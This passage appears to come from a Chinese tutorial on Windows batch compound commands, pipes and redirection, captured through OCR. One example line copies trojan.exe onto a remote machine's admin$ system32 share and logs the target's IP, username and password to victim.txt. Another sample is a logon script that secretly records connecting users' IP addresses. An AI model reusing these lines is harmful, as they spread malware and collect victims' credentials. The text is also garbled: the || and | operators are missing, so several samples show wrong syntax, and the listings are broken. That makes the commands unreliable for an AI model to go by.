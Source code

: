 
##三.如何使用组合命令(Compound Command)  


###1.& Usage:第一条命令 & 第二条命令 [& 第三条命令...]  

用这种方法可以同时执行多条命令,而不管命令是否执行成功  
Sample:  

```
C:/>dir z: & dir c:/Ex4rch  
The system cannot find the path specified.  
Volume in drive C has no label.  
Volume Serial Number is 0078-59FB  
Directory of c:/Ex4rch  
2002-05-14 23:51  
     2002-05-14 23:51 ..  
2002-05-14 23:51  
     14 sometips.gif  
```

###2.　Usage:第一条命令 　　 第二条命令 [　　 第三条命令...]  

用这种方法可以同时执行多条命令,当碰到执行正确的命令后将不执行后面的命令,如果没有出现正确的命令则一直执行完所有命令;  
Sample:  

```
C:/Ex4rch>dir sometips.gif 　　 del sometips.gif  
Volume in drive C has no label.  
Volume Serial Number is 0078-59FB  
Directory of C:/Ex4rch  
2002-05-14 23:55 14 sometips.gif  
1 File(s) 14 bytes  
0 Dir(s) 768,696,320 bytes free  
```
组合命令使用的例子:  
sample:  

```
@copy trojan.exe //%1/admin$/system32 && if not errorlevel 1 echo IP %1 USER %2 PASS %3 >>victim.txt  
```

##四、管道命令的使用  

###1.　 命令  

Usage:第一条命令 　 第二条命令 [　 第三条命令...]  
将第一条命令的结果作为第二条命令的参数来使用,记得在unix中这种方式很常见。  
sample:  
time /t>>D:/IP.log  
netstat -n -p tcp　find ":3389">>D:/IP.log  
start Explorer  
看出来了么?用于终端服务允许我们为用户自定义起始的程序,来实现让用户运行下面这个bat,以获得登录用户的IP。 


###2.>、>>输出重定向命令  

将一条命令或某个程序输出结果的重定向到特定文件中, > 与 >>的区别在于,>会清除调原有文件中的内容后写入指定文件,而>>只会追加内容到指定文
件中,而不会改动其中的内容。  
